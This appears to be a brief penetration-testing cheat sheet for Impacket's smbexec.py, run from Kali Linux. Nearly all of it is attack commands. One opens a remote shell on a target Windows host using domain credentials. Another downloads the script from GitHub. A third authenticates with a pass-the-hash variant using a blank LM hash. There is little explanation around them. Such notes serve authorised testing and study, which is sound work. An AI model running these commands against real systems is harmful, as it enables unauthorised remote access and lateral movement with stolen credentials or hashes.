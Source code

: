 ```yaml
---
category: Uncategorized
tags: []
---
```

```python - kali
python3 /usr/share/doc/python3-impacket/examples/smbexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

or

```bash - kali
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/smbexec.py
```

#### Shell with smbexec.py
```python - kali
smbexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

#### Passing the hash (blank LM hash)
```python - kali
smbexec.py $DOMAIN/$USER@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```
